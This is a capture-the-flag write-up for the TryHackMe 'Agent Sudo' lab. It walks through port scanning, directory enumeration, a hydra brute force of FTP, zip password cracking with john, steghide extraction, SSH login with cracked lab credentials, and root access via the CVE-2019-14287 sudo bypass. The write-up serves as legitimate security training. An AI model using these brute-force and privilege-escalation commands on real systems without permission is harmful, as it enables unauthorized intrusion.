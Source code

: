 ```yaml
---
title: TryHackMe - Agent Sudo
author: Bonface
date: 2024-01-03 00:00:00 +0000
categories:
  - TryHackMe
  - Easy
tags:
  - tryhackme
  - linux
  - web
  - privesc
  - bruteforce
  - hydra
  - suid
  - john
  - crack
  - gobuster
image:
  path: /assets/img/try%20hack%20me%20/Easy/Agent_sudo/0.png
  alt: Agent sudo
---
```


# Agent Sudo

You found a secret server located under the deep sea.  
Your task is to hack inside the server and reveal the truth.

### Task 2: Enumerate
### Task 3: Hash cracking and brute-force
### Task 4: Capture the user flag  
### Task 5: Privilege escalation



## Enumerate
### nmap

```sh 
nmap -sV -sC -v 10.10.224.246
```

```sh
Scanning 10.10.224.246 [1000 ports]
Discovered open port 22/tcp on 10.10.224.246
Discovered open port 21/tcp on 10.10.224.246
Discovered open port 80/tcp on 10.10.224.246

21/tcp  open     ftp            vsftpd 3.0.3

22/tcp  open     ssh            OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)

80/tcp  open     http           Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

902/tcp filtered iss-realsecure

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

### Http_80

 **ip**  `10.10.55.182`

**To Do List**  
- run gobuster
- surf the web  
- view source code  
- robots.txt  
- gobuster  

```sh
gobuster dir -u http://10.10.55.182 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
### Result
Nothing much 

### surf the web

![](../assets/img/try_hack_me/Easy/Agent_sudo/1.png)

Let's try spoofing as C and get the same URL with curl.  
-A allows us to spoof the user agent and -L follows any redirects.

![](../assets/img/try_hack_me/Easy/Agent_sudo/2.png)

Now we have a user `chris` but not sure it's for ssh or ftp.

### ftp-21

## bruteforce
```sh
hydra -L users.txt -P passwords.txt <IP> ftp 
# hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.55.182 ftp
```

![](../assets/img/try_hack_me/Easy/Agent_sudo/3.png)

## Result
ftp details  
- user name: chris  
- password: crystal  
log in!!!
```sh
ftp chris@10.10.55.182 
```

![](../assets/img/try_hack_me/Easy/Agent_sudo/4.png)


we got the file, concatenate it:  
![](../assets/img/try_hack_me/Easy/Agent_sudo/5.png)


Will have to go back and get the images. We run binwalk on the png file which is the most likely to contain some hidden files.

We get these three files:
i
- 365  
- 365.zlib  
- 8702.zip  
- To_agentR.txt  

The zip file is encrypted. We can use john to crack the password:

```sh
zip2john 8702.zip > forjohn
john forjohn.txt
```

![](../assets/img/try_hack_me/Easy/Agent_sudo/6.png)

Password = alien  
Unzip the files. 
 
You may get errors extracting the files using unzip, if so, use 7z e `zipfile`
```sh
 7z e 8702.zip
 ```  

Use `CyberChef` to decode  
`QXJlYTUx` = `Area51` = password for `steg`.  
We can now use `steghide` on the image that we never used.
```sh
steghide info cute-alien.jpg 
steghide extract -sf cute-alien.jpg 
cat message.txt
```

![](../assets/img/try_hack_me/Easy/Agent_sudo/10.png)


### Details
With these details and the unused port (22 = ssh), we can try logging in.

Details 
- username: `james`
- password: `hackerrules!`

```sh
 ssh james@10.10.55.182 
# password = hackerrules!
```
![](../assets/img/try_hack_me/Easy/Agent_sudo/7.png)

## Privilege escalation
Run sudo -l  
![](../assets/img/try_hack_me/Easy/Agent_sudo/8.png)

Google search for the exploit: CVE:2019-14287  
In the exploit page, we get:  
```sh
 'sudo -u #-1 /bin/bash'
 #Read the root flag. 
```
![](../assets/img/try_hack_me/Easy/Agent_sudo/9.png)
